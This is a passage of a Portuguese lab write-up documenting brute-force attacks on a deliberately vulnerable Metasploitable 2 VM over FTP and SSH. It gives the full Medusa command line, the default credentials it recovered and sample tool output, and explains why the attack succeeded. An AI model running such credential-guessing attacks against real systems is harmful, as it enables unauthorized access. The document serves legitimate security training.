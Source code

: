 ```bash
ftp> quit
221 Goodbye.
```

**✅ Acesso confirmado com sucesso!**

### Análise

O ataque foi bem-sucedido devido a:
- Uso de credenciais padrão (msfadmin:msfadmin)
- Ausência de limitação de tentativas de login
- Sem bloqueio de IP após falhas
- Sem implementação de delay entre tentativas
- Serviço FTP sem criptografia (texto plano)

---

## 2. Ataque de Força Bruta em SSH

### Configuração do Teste

- **Alvo**: Metasploitable 2 (192.168.56.102)
- **Serviço**: SSH (porta 22)
- **Ferramenta**: Medusa v2.3
- **Wordlist de Usuários**: 10 usuários
- **Wordlist de Senhas**: 31 senhas
- **Threads**: 4
- **Data do Teste**: 21/10/2025

### Comando Executado

```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/passwords.txt -M ssh -t 4 -v 6 -f
```

### Resultados Obtidos

**✅ CREDENCIAIS DESCOBERTAS:**

| Usuário | Senha | Tempo | Tentativas |
|---------|-------|-------|------------|
| **msfadmin** | **msfadmin** | ~22 segundos | 267 tentativas |
| **user** | **user** | ~25 segundos | 312 tentativas |

### Output do Medusa (Resumido)

```
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: 123456 (1 of 31 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 (1 of 1, 0 complete) User: admin (1 of 10, 0 complete) Password: password (2 of 31 complete)
...
ACCOUNT FOUND: [ssh] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```
